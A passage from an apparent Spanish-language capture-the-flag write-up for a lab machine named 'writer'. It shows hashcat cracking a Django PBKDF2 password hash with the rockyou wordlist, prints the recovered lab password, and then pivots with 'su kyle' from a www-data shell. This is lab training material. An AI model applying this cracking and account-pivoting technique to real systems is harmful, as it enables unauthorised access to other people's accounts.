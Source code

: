 ```ruby
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=:marcoantonio
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10000 (Django (PBKDF2-SHA256))
Hash.Target......: pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8...uXM4A=
Time.Started.....: Sat Jun 28 12:08:55 2025 (45 secs)
Time.Estimated...: Sat Jun 28 12:09:40 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      272 H/s (9.96ms) @ Accel:512 Loops:256 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 12288/14344385 (0.09%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 9216/14344385 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:259840-259999
Candidate.Engine.: Device Generator
Candidates.#1....: rubberducky -> hawkeye
Hardware.Mon.#1..: Util: 90%

Started: Sat Jun 28 12:08:51 2025
Stopped: Sat Jun 28 12:09:41 2025
```

> Contraseña: marcoantonio.

- Pivoting

```bash
www-data@writer:/tmp$ su kyle
```
